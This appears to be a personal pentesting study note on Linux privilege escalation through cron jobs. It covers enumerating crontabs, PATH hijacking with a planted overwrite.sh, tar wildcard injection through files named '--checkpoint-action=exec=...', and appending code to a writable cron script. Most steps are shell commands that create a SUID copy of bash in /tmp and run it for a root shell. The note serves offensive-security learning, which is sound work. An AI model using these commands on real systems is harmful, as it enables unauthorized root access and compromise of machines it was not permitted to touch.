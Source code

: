 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Cron Jobs

The first five fields at the beginning of the cron job entry are used to specify the scheduled time. These fields are used to specify the following values:

Minute (0 – 59): Used to specify the minute the cron job should be run.
Hour (0 – 23): Used to specify the hour of the day the cron job should be run.
Day of the month (1 – 31): Used to specify the specific day of the month the cron job should be run.
Month (1 – 12): Used to specify the month when the cron job should be run.
Day of the week (0 – 7): Used to specify the day of the week when the cron job should be run.

```bash - target
ls -lah /etc/cron*
```

Find and cat out **any** files.

```bash - target
grep "CRON" /var/log/cron.log
```

```bash - target
cat /etc/crontab 
```

Look at ==WHO IS RUNNING== the task, not who owns it!

![[Pasted image 20220324133531.png]]

![[Pasted image 20220324133642.png]]

![[1._Reverse Shells (LIN)#Python file root execute]]

Also check:
```bash - target
systemctl list-timers --all
```

![[Pasted image 20220220161524.png]]

#### Path Environment Variable

The crontab PATH environment variable is by default set to /usr/bin:/bin

The PATH variable can be overwritten in the crontab file.

If a cron job program/script does not use an absolute path, and one of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cron job.

1. View the contents of the system-wide crontab:

```bash - target
cat /etc/crontab
```

>PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```* * * * * root overwrite.sh```
```* * * * * root /usr/local/bin/compress.sh```

![[Pasted image 20211230154452.png]]

Note that the /home/user directory (which we can write to) is at the start of the PATH variable, and the first cron job does not use an absolute path.

2. Create the file overwrite.sh in /home/user with the following contents:

[[1.2_Root Shell spawn#Script / cronjob]]


#### File nonexistant
Notice the path that is listed, how it starts with /home/user.  Let's check there to see if the file "overwrite.sh" exists:

```bash - target
ls -lah /home/user
```

It does not, so we can create the file to give us root.

```bash - target
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
```

```bash - target
chmod +x /home/user/overwrite.sh
```

The cron job runs every minute, so just wait until we see bash in /tmp directory, then run:

```bash - target
/tmp/bash -p
```

![[Pasted image 20220220163029.png]]

#### Wildcards
```bash - target
cat /etc/crontab 
```

In this example, we look at /usr/local/bin/compress.sh

```bash - target
cat /usr/local/bin/compress.sh
```

![[Pasted image 20221115135824.png]]

We can take advantage of the wildcard character as seen above.  We'll create a malicious file called "runme.sh"

```bash - target
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
```

```bash - target
chmod +x runme.sh
```

```bash - target
touch /home/user/--checkpoint=1
```

```bash - target
touch /home/user/--checkpoint-action=exec=sh\runme.sh
```

```bash - target
/tmp/bash -p
```

![[Pasted image 20220220164120.png]]

#### Append malicious code

![[Pasted image 20220220161524.png]]

We run ``'locate overwrite.sh'`` to find the location of the file, or, using the PATH, we begin hunting down the overwrite.sh file.  First we look in /home/user, not there, then /usr/local/sbin, not there, then finally we find it in /usr/local/bin.

```bash - target
ls -lah /usr/local/bin/overwrite.sh
```

We see we do have write privileges to the file.  Let's take a peek at what the file does.

```bash - target
cat /usr/local/bin/overwrite.sh
```

Now, we will append on our malicious code the file:

```bash - target
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
```

```bash - target
/tmp/bash -p
```

![[Pasted image 20220220165112.png]]


